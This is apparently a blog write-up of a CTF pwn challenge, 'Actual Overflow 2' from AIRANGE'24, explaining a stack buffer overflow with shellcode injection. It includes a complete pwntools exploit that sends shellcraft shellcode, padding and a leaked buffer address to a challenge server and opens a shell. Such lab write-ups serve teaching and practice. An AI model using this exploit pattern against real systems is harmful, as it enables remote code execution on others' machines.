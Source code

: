 ```yaml
---
type: Blog
title: AIRANGE'24 - Pwn - Actual Overflow 2
date: '2024-04-16'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: It was my first proper buffer over challenge that i solved
---
```


## Challenge Description

What can you do if I don't give you a function for the flag?

[Download](https://airange.online/files/94259d51f0eb9b7ab3bf3fb3b26c6df9/actual_overflow_2.tar?token=eyJ1c2VyX2lkIjo0NSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzN9.Zh_R0Q.aOTL_0aXqSOi7O7Knx6XpKiSXhQ)

## Solution

In the code it can be seen that there is no flag function but rather a function that just prints the string that we enter.

so for this challenge we have to return to shell code so that we can extract the flag.txt,

This can be done by overflowing the buffer and sending the address of buffer that stores input, but with a slight twist that instead of sending just a value or a byte we will inject the shell code in the start of buffer overflow so the next the address that we send after buffer overflow it will redirect to the same buffer again but this time it will execute the shell code. just run the command “**cat flag.txt**”

***you can find the shell code online (but send it as little endian format) as well but the good practice is to use the pwn tools for this you have to give context of the architecture and just use this line it will create a shell code for you***

```python
# context of the ***architecture*** 
context.arch='x86_64'
# function to create shell code.
some variable = asm(shellcraft.sh())
```

**EXPLOIT:**

```python
from pwn import *
context.arch='x86_64'
io = remote("143.198.227.172", 32777)

io.recvuntil(b"u: ")

leak = int(io.recvline().strip(), 16)

print("Leaked address:", hex(leak))

shellcode = asm(shellcraft.sh())

padding = b"A" * (264 - len(shellcode)) 

payload = shellcode + padding + p64(leak)

io.sendline(payload)

io.interactive()
```
![Screenshot](/static/writeups/overflow2/1.png)